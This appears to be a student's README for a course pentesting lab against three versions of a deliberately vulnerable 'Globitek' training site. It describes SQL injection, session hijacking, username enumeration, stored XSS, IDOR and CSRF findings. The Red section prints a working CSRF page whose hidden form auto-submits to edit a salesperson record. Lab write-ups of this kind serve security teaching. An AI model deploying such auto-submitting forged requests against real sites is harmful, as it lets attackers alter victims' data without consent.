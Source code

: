 # Project 8 - Pentesting Live Targets

Time spent: **7** hours spent in total

> Objective: Identify vulnerabilities in three different versions of the Globitek website: blue, green, and red.

The six possible exploits are:
* Username Enumeration
* Insecure Direct Object Reference (IDOR)
* SQL Injection (SQLi)
* Cross-Site Scripting (XSS)
* Cross-Site Request Forgery (CSRF)
* Session Hijacking/Fixation

Each version of the site has been given two of the six vulnerabilities. (In other words, all six of the exploits should be assignable to one of the sites.)

## Blue

Vulnerability #1: <img src='https://imgur.com/a/0RsTR' title='SQLi Exploit' width='' alt='GIF Walkthrough' /> You are able to add in code like a sleep in the url as shown in the GIF. 

Vulnerability #2: <https://imgur.com/a/R5mBF' title='Session Hijacking' width='' alt='GIF Walkthrough' /> Here you can see I am logged in on the left in chrome but on the right in IE I am not logged in. I can take the session from chrome and paste it in IE and now I am logged in on IE.

## Green

Vulnerability #1: <img src='https://imgur.com/a/Pw6tc' title='Username Enumeration' width='' alt='GIF Walkthrough' /> You can see when I try to log in with "fakeuser" the error text is not bold but when I log in with "jmonroe99" it is bold showing that it is a valid username. The other sites always show the same font. 

Vulnerability #2: <img src='https://imgur.com/a/PxbFd' title='XSS' width='' alt='GIF Walkthrough' /> To get the script to run you need to make feedback as a non-logged in person that has the script as the actual feedback test. Then when an admin logs in and checks the feedback the script will run! 


## Red

Vulnerability #1: <img src='https://imgur.com/a/O0Q4H' title='IDOR Exploit' width='' alt='GIF Walkthrough' />  This is the  Insecure Direct Object Reference vulnerability. You can see in the gif that as a not logged in user we are able to see the new salesperson who is not supposed to be public by just changing the ID. 

Vulnerability #2: <img src = 'https://imgur.com/a/PqvbE' title='CSRF Exploit' width='' alt='GIF Walkthrough' /> Here you can create a small form that will load and edit the sales people. See that I added myself as a sales person.  The code I used is below 

````

<html>
  <head>
    <title>Edit Salespeople</title>
  </head>
  <body onload="document.edit_salesperson.submit()">
    <form action="https://35.184.87.12/red/public/staff/salespeople/edit.php?id=5" method="POST" name="edit_salesperson" style="display: none;" target="hidden_results" >
      <input type="text" name="first_name" value="Jason"><br>
      <input type="text" name="last_name" value="Merewitz"><br>
      <input type="text" name="phone" value="123-456-1337"><br>
      <input type="text" name="email" value="sales@person.com"><br>
    </form>
    <iframe name="hidden_results" style="display: none;"></iframe>
  </body>
</html>

````
## Notes

Describe any challenges encountered while doing the work
